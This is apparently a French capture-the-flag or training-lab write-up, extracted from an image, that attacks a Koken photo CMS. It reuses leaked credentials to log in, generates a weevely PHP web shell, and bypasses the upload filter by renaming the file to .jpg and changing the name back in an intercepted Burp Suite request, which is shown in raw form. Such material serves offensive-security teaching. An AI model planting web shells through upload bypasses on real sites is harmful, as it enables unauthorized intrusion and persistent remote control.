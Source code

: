 Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)

Nous avons deux adressses mail  que l'on va mettre de côté

agi@photographer.com
daisa@photographer.com

dans les mails il y a toujours un nom d'utilisateur

on vas donc tester du côté du port 8000 on tombe sur l'interface de koken un cms orienté photo

nom d'utilisateur daisa@photographer.com
passwd babygirl ;-) oui je sais c'est moisi 


quand je vois une interface avec une espace uplaod file ... çà vaut le coup de tester la file upload ... vraiment dés fois çà passe 

aller on génére une BKD weevely 

weevely generate connect special.php
Generated 'special.php' with password 'connect' of 761 byte size.
root@linux:/home/nico/Documents/SIMPLON/Infosec/PLTCyber# cp special.php special.php.jpg*

un jour un gars me disais weevely c'est la vie !!! BIMMM çà passe mais attention il vas falloir se retrousser les manches !!! 

aller on ouvre BurpSuite et ce cela implique (navigateur dédie sous le 127.0.0.1:8080)

on laisse le mode inercept on et on vas jouer la requête en direct 

vous n'aurez plus qu'a faire des forwards et puis modifié votre special.php.jpg en special.php 


voici le corp de votre requête NON MODIFIEE 

POST /api.php?/content HTTP/1.1
Host: 172.16.21.117:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://172.16.21.117:8000/admin/
x-koken-auth: cookie
Content-Type: multipart/form-data; boundary=---------------------------59958074211667389191809679554
Content-Length: 1825
Connection: close
Cookie: koken_referrer=; koken_session_ci=hVx%2FwxdI0K2Wvo330rkPtMWOidW0u9wFN1iUUnRSUDeS7HAahrj47BVMJjuOei%2FwffLwYB%2B1rx3UQSIkxXepqOOUw%2BdPEctvuFm%2BmjvhJ9x%2FHLW9I3ox2Bp%2BZCcwEqWYorfVqfLdPeRIZvypZHCif9R%2BkJQz80SYSx1oL7RhqDtsz6F5Qv6vwFbIzc1Xpkghd48YmNX%2BvNuhBPm79RjpzvNt%2FCEkzGjPGsgXmrMi0x4r0lVvIlooS87r0CNhJ3LFpko2YOAl9fDYcZ6LmAeCcTtWLJSDiUllJxa63%2FyY2j4n0CmiciRtCx6VvnphzWrCm1knJW10QKWvsL5hsMwEnpatLpzPPdj%2FN0PBmhw61wJuiQv13YG9CEoMqXRT25g%2FOS7wuTnQgGJjsS6ugcb1jEs3SrMht93BCPQBz82WYWREiWqCUcAy%2Bo0c5Fkx2ekwRVDRzF7PmcHu6PbPS1BewnvcLIBaBk7Op%2Bwl26tP6NVCNN2H6iZrnW%2FssAVVvJX6wZti6vIZEnq5GMeN1XGXVafzlVyqYC2xxzMlxXgqPG4ShB%2BCoK6I%2BsO0%2BNWW1z280jp%2FiG7gThUJksm7oZ8X0dnLFdK224M9MWcQNqqNknZl7dM%2F81MAoY4P%2FSoduF3GW%2BQkICN%2BjvT%2FwOZc1alBi%2F1yPl%2B3vfmoZZi4LjD6gytSyaHJGse9eJ2I%2Bo8Z0Qfrrfy20H0JFZw2BQEhRdnVznae0epvpPnjbHcM761FOrvUFfl7qEbxQRPO89ib%2B5iQxW8EL%2BqGjZMGxRP0Ry856r%2FYDAnUNvw%2FyzR72Lqr5hViNOwsaU22w6u64hMe1LaTZgUAHHyt1yv0Jwo3mjDu6pEQ24dxvxlVoQcovFKIadQ%2BlguQW3U3bL9HjZrqEs2ICPxpTyGDxXd%2B14AavotXdaXk5tPGG0iUrftldGtj6G1orrgIUifFYvsiGCuOnAlFdH5KORXGsC8A608H%2F49hMIiWZMD6l8EewjFFdT8fTRiMnnpaVzFrp0Z54%2FG3BNLxzO747tHlmsZtKYasTM5HL7qu%2Bkf%2BE7ZV2tJUnl7v9VzyR72dN9djjdzk7yAKGWTDZwyTn%2F1Glu3gzJj5VfVg6C3L9hE5hi24FGclvIoC2eOWuYKHk3VWFNilHwiMa%2FplPh58vVAY%2FiXM1MeZ%2FbTJxqH7eijR2%2Bwuqij%2FFhtMpUYbc90UdEEofQG5eTWZLNpS4cxCBzCVTaoSj%2FVm3AzXj2330P%2BM5PwmgGzRzQmPEdPbK4y8z45ZXfUbkpbdpA1F9157b50eece664ab4a6c023af790029c2032383d
